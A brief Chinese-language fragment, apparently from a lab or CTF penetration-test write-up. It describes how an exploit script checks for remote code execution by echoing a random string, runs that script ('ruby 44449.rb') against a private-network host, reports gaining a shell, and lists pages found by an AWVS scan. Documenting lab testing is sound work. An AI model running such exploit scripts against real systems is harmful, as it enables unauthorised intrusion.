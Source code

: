 分析：
为了测试代码执行，脚本尝试回显随机生成的 8 个字符的字符串。然后，如果响应与发送的字符串匹配，则假定代码执行正在运行：470行
  random = (0...8).map { (65 + rand(26)).chr }.join

ruby 44449.rb http://10.211.55.42/jabc/    
成功获得shell！


2）awvs扫描分析

http://10.211.55.42/jabcd0cs/signup.php
http://10.211.55.42/jabcd0cs/forgot_password.php
http://10.211.55.42/jabcd0cs/index.php





























